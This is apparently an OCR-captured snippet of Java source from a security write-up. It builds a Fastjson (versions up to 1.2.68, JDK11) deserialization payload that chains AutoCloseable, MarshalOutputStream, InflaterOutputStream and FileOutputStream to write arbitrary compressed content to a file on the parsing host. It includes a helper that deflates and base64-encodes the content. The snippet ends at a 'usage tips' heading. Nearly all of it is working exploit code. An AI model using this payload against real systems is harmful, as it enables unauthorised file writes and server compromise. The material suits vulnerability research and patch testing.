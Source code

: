 ```java
    	String code = gzcompress("qwerasdf");
    	//php -r "echo base64_encode(gzcompress('qwerasdf'));"
    	//<=1.2.68 and JDK11
        String payload = "{\r\n"
        		+ "    \"@type\":\"java.lang.AutoCloseable\",\r\n"
        		+ "    \"@type\":\"sun.rmi.server.MarshalOutputStream\",\r\n"
        		+ "    \"out\":\r\n"
        		+ "    {\r\n"
        		+ "        \"@type\":\"java.util.zip.InflaterOutputStream\",\r\n"
        		+ "        \"out\":\r\n"
        		+ "        {\r\n"
        		+ "           \"@type\":\"java.io.FileOutputStream\",\r\n"
        		+ "           \"file\":\"e:/bbb.txt\",\r\n"
        		+ "           \"append\":false\r\n"
        		+ "        },\r\n"
        		+ "        \"infl\":\r\n"
        		+ "        {\r\n"
        		+ "            \"input\":\r\n"
        		+ "            {\r\n"
        		+ "                \"array\":\""+code+"\",\r\n"
        		+ "                \"limit\":16\r\n"  //需对应修改
        		+ "            }\r\n"
        		+ "        },\r\n"
        		+ "        \"bufLen\":1048576\r\n"
        		+ "    },\r\n"
        		+ "    \"protocolVersion\":1\r\n"
        		+ "}\r\n"
        		+ "";
        System.out.println(payload);
        JSON.parseObject(payload);	
    }
    public static String gzcompress(String code) {
    	byte[] data = code.getBytes();
        byte[] output = new byte[0];
        Deflater compresser = new Deflater();
        compresser.reset();
        compresser.setInput(data);
        compresser.finish();
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!compresser.finished()) {
                int i = compresser.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            try {
                bos.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        compresser.end();
        System.out.println(Arrays.toString(output));
        return Base64.getEncoder().encodeToString(output);
    }
}
```
使用技巧：